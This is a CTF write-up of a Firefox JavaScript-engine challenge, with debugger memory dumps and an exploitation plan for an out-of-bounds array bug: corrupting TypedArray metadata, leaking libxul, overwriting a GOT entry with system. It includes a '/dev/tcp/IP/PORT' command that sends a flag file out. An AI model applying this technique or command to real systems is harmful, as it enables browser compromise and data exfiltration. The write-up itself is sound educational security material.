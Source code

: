 The challenge gives us an OOB read/write primitive from Arrays (see [patch](blaze.patch)), the newly added `blaze` method sets the length of any Array it's called on to 420. 

Recommended readings are:

* [Attacking JavaScript Engines](http://phrack.org/papers/attacking_javascript_engines.html)
* [Learning browser exploitation via 33C3 CTF feuerfuchs challenge](https://bruce30262.github.io/2017/12/15/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge)
* [feuerfuchs exploit by saleo](https://github.com/saelo/feuerfuchs/blob/master/exploit/pwn.js): I shamelessly appropriated the Int64 and memory classes from this


## Debugging environment

Since the libxul.so we were given is close to 2GB in size and gdb occasionally consumed a ton of memory when attached to the firefox process, I didn't feel like adding virtualization into the mix. Luckily the Dockerfile is based on Ubuntu 16.04, just like my desktop, though it shouldn't matter much besides the libc offsets. To get a somewhat decent debugging experience, I did the following:


* the challenge contains a Firefox profile that disables sandboxing. I also set the content process limit in the performance settings to 1, so that I don't have to mess too much with finding the right content process
* [modified](gdb.py) a gdb command to re-attach to the content process more easily
* checkout the source tree and compile it (so that generated source files are also available) according to the README, then `set substitute-path /home/ubuntu /ctf/blaze18/src` in gdb to get sources to display
* the only breakpoint I used was in the `blaze` function (`b Array.cpp:1602`)


## Messing around

After playing around a bit with the primitive, it seemed that we were only able to read and write NaN-boxed values, e.g. the integer 96 is represented as `0xfff8800000000060`. Then I allocated some Arrays, TypedArrays and ArrayBuffers and noticed that Arrays (with inline data) and TypedArrays were placed next to each other, while ArrayBuffers (with inline data) were allocated somewhere else. Let's examine how these objects look in memory.

### Arrays in memory

An empty Array looks like this:

```
00:0000│ rdx  0x7fcecfd05d48 —▸ 0x7fcec9157040 —▸ 0x7fcedeb252a0 (js::ArrayObject::class_) —▸ 0x7fcedcb4f29b ◂— ...
01:0008│      0x7fcecfd05d50 —▸ 0x7fcec91e3f90 —▸ 0x7fcecbe89f60 —▸ 0x7fcedeb252a0 (js::ArrayObject::class_) ◂— ...
02:0010│      0x7fcecfd05d58 ◂— 0x0
03:0018│      0x7fcecfd05d60 —▸ 0x7fcecfd05d78 ◂— 0x2f2f2f2f2f2f2f2f ('////////')   <-  `pointer to the elements`
04:0020│      0x7fcecfd05d68 ◂— 0x0
05:0028│      0x7fcecfd05d70 ◂— 0x6
06:0030│      0x7fcecfd05d78 ◂— 0x2f2f2f2f2f2f2f2f ('////////')
```

At offset 0x18 is the pointer to the actual data in the array. This points to right after the Array object since our Array is small (well, empty). I noted that the pointer isn't boxed, so it didn't seem possible to directly write to it via the primitive by placing two Arrays next to each other. Let's move on.


### ArrayBuffer

I created an ArrayBuffer with length 96 (from what I read this is the largest size with data still inlined) and filled it with the byte values from 0 to 96 through an Uint8array. The results is:

```
00:0000│   0x7fcec913d060 —▸ 0x7fcec919de50 —▸ 0x7fcedeb51480 (js::ArrayBufferObject::class_) —▸ 0x7fcedcad8971 ◂— ...
01:0008│   0x7fcec913d068 —▸ 0x7fcec9123970 —▸ 0x7fcecbe89fe0 —▸ 0x7fcedeb51480 (js::ArrayBufferObject::class_) ◂— ...
02:0010│   0x7fcec913d070 ◂— 0x0
03:0018│   0x7fcec913d078 —▸ 0x7fceddb0bda0 (emptyElementsHeader+16) ◂— add    byte ptr [rax], al
04:0020│   0x7fcec913d080 ◂— 0x3fe76489e850   <- `this is the shifted to the right by one pointer to the start of the actual buffer`
05:0028│   0x7fcec913d088 ◂— 0xfff8800000000060 /* '`' */  <- length of the ArrayBuffer
06:0030│   0x7fcec913d090 ◂— 0xfffe7fcecfd05848
07:0038│   0x7fcec913d098 ◂— 0xfff8800000000000
08:0040│   0x7fcec913d0a0 ◂— 0x706050403020100
09:0048│   0x7fcec913d0a8 ◂— 0xf0e0d0c0b0a0908
0a:0050│   0x7fcec913d0b0 ◂— 0x1716151413121110
0b:0058│   0x7fcec913d0b8 ◂— 0x1f1e1d1c1b1a1918
0c:0060│   0x7fcec913d0c0 ◂— 0x2726252423222120 (' !"#$%&\'')
0d:0068│   0x7fcec913d0c8 ◂— 0x2f2e2d2c2b2a2928 ('()*+,-./')
0e:0070│   0x7fcec913d0d0 ◂— 0x3736353433323130 ('01234567')
0f:0078│   0x7fcec913d0d8 ◂— 0x3f3e3d3c3b3a3938 ('89:;<=>?')
10:0080│   0x7fcec913d0e0 ◂— 0x4746454443424140 ('@ABCDEFG')
11:0088│   0x7fcec913d0e8 ◂— 0x4f4e4d4c4b4a4948 ('HIJKLMNO')
12:0090│   0x7fcec913d0f0 ◂— 0x5756555453525150 ('PQRSTUVW')
13:0098│   0x7fcec913d0f8 ◂— 'XYZ[\\]^_'
14:00a0│   0x7fcec913d100 ◂— 0x0
```

We can see what is likely the boxed length of the ArrayBuffer at offset 0x28. At offset 0x20 is another interesting member, the data pointer of the ArrayBuffer right-shifted by one. Also, of interest is the pointer into libxul at offset 0x18, which we will later leak.

```
pwndbg> p/x 0x3fe76489e850<<1
$1 = 0x7fcec913d0a0
```

Then, from 0x50 we can see the actual byte values. Since ArrayBuffers ended up very far from my Arrays, I moved on.


### TypedArrays

Creating an Uint8Array referencing the previous ArrayBuffer results in:

```
0c:0060│      0x7fcecfd05da8 —▸ 0x7fcec919dfd0 —▸ 0x7fcedeb5ce30 (js::TypedArrayObject::classes+48) —▸ 0x7fcedcad6202 ◂— ...
0d:0068│      0x7fcecfd05db0 —▸ 0x7fcec914a510 —▸ 0x7fcec91400a0 —▸ 0x7fcedeb5ce30 (js::TypedArrayObject::classes+48) ◂— ...
0e:0070│      0x7fcecfd05db8 ◂— 0x0
0f:0078│      0x7fcecfd05dc0 —▸ 0x7fceddb0bda0 (emptyElementsHeader+16) ◂— add    byte ptr [rax], al
10:0080│      0x7fcecfd05dc8 ◂— 0xfffe7fcec913d060						<-  `Nan-boxed pointer to the ArrayBuffer class`
11:0088│      0x7fcecfd05dd0 ◂— 0xfff8800000000060 /* '\`' */			<-  `AB length`
12:0090│      0x7fcecfd05dd8 ◂— 0xfff8800000000000						<- 	`offset?`
13:0098│      0x7fcecfd05de0 —▸ 0x7fcec913d0a0 ◂— 0x706050403020100		<-  `ptr to the actual beginning of the data in the AB, this is used in the set/get operations directly`
```

What's interesting to note is that TypedArrays cache the length and data pointer of the underlying ArrayBuffer. Also, the length is NaN-boxed, and the TypedArray ended up right next to our plain Array, from which we can trigger the OOB read/write. Meaning we can overwrite the cached length of the Uint8Array, effectively having OOB read/write relative to an ArrayBuffer, but without the restriction of only being able to manipulate boxed values.


So the plan is to:

* allocate two adjacent ArrayBuffers, both with sizes that result in inlined data
* allocate an empty Array and an Uint8Array that references the first ArrayBuffer, these end up far from the ArrayBuffers and need to be adjacent (the heap layout was very deterministic with regard to adjacency during testing).
* trigger `blaze` on the Array, so that we gain boxed r/w access to the Uint8Array
* enlarge the cached length of the Uint8Array, so that we can access the second ArrayBuffer through it
* leak the libxul pointer from the second ArrayBuffer through the Uint8Array
* achieve arbitrary r/w by modifying the data ptr and length of the second ArrayBuffer and creating a new TypedArray referencing it (and doing this every time we do a read or write)
* from here, I followed the route taken by saleo in his feuerfuchs exploit: replace the memmove .got entry in libxul with system, call copyWithin to trigger it with our controlled data and use `/bin/bash -c "cat /flag >/dev/tcp/IP/PORT"` to get the flag.


This worked great on my desktop, however, it failed when I spun up the docker container. According to the README, `/firefox/dist/bin/firefox --headless <url>` is the command used to run our exploit. In an attempt to find out what's happening, I launched firefox with the `-screenshot` flag, which is not, so surprisingly, supposed to take a screenshot of the website. What was surprising is that the exploit started working. Then I noticed that the docker build had some errors, my version of docker didn't support the --chown flag of ADD that was used in the Dockerfile. The end result was that the profile that disabled sandboxing wasn't copied over to the image and the exploit failed because of the sandbox (which the -screenshot flag disabled). After getting everything to work locally and receiving some help with the PoW from niklasb, it was time to light it up. 

All in all, a blaze to remember.

~The End~

